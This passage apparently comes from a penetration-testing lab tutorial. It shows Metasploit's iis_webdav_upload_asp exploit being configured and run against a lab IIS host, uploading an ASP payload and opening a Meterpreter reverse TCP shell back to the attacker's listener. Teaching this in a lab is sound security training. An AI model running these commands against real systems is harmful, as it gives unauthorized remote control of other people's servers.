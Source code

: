 ```shell-session
   Proxies                              no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                               yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT         80                     yes       The target port (TCP)
   SSL           false                  no        Negotiate SSL/TLS for outgoing connections
   VHOST                                no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.239.181   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```


#### MSF - Configuring Exploit & Payload

```shell-session
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOST 10.10.10.15

RHOST => 10.10.10.15


msf6 exploit(windows/iis/iis_webdav_upload_asp) > set LHOST tun0

LHOST => tun0


msf6 exploit(windows/iis/iis_webdav_upload_asp) > run

[*] Started reverse TCP handler on 10.10.14.26:4444 
[*] Checking /metasploit28857905.asp
[*] Uploading 612435 bytes to /metasploit28857905.txt...
[*] Moving /metasploit28857905.txt to /metasploit28857905.asp...
[*] Executing /metasploit28857905.asp...
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Deleting /metasploit28857905.asp (this doesn't always work)...
[!] Deletion failed on /metasploit28857905.asp [403 Forbidden]
[*] Meterpreter session 1 opened (10.10.14.26:4444 -> 10.10.10.15:1030) at 2020-09-03 10:10:21 +0000

meterpreter > 
```
